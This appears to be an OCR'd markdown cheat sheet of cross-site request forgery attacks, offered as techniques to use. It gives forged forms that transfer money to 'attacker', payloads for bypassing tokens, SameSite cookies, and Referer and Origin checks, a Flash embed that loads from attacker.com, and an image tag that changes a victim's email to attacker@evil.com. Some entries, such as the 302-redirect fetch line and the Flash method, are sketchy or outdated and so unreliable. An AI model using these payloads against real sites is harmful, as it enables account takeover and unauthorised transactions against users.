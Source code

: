 ### Advanced CSRF Techniques

#### **Bypassing CSRF Tokens**
```html
<!-- If token is predictable -->
<form action="http://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="csrf_token" value="predictable_token">
</form>

<!-- If token is in cookie (Double Submit Cookie) -->
<script>
// The application sets CSRF token in cookie and expects same value in form
document.cookie = "csrf_token=attacker_token";
</script>
```

#### **JSON CSRF ( with Flash)**
```html
<!-- Using Flash to send JSON with custom Content-Type -->
<embed src="http://attacker.com/csrf.swf?url=http://bank.com/api/transfer&data={'amount':1000,'to':'attacker'}" />
```

#### **Content-Type Bypass**
```html
<!-- If application accepts form-data instead of JSON -->
<form action="http://bank.com/api/transfer" method="POST" enctype="text/plain">
  <input name='{"amount":1000,"to":"attacker","ignore":"' value='test"}' type="hidden">
</form>
```

### CSRF Protection Bypass

#### **SameSite Cookie Bypass**
```javascript
// GET-based attack still works with SameSite=Lax
<img src="https://bank.com/change-email?email=attacker@evil.com">

// POST with 302 redirect
fetch('https://attacker.com/redirector', {credentials: 'include'})
```

#### **Referrer Header Bypass**
```html
<!-- If check is weak (contains domain) -->
<meta name="referrer" content="no-referrer">
<!-- Or use data: URL -->
<iframe src="data:text/html,<form action='http://bank.com/transfer' method='POST'>...</form>">
```

#### **Origin Header Bypass**
```html
<!-- Use null origin -->
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,..."></iframe>
```

---